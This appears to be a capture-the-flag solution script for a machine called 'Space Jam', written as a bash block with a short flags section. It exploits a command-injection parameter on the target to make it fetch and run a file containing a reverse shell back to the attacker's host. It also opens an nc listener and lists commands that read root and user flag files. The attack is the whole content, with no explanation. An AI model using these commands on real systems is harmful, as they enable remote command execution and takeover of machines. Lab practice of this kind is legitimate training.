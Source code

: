 # Space Jam

```bash
echo "Host IP: "
read HOST_IP

echo "Target IP: "
read TARGET_IP

echo "bash -i >& /dev/tcp/$HOST_IP/1234 0>&1" > SHELL
python -m http.server 

curl http://$TARGET_IP:3000/?cmd=wget%20http://$HOST_IP:8000/SHELL

nc -lvnp 1234

curl http://$TARGET_IP:3000/?cmd=bash%20SHELL
```

## Flags
echo USERNAME > /root/king.txt

cat /root/root.txt

cat /home/jordan/user.txt
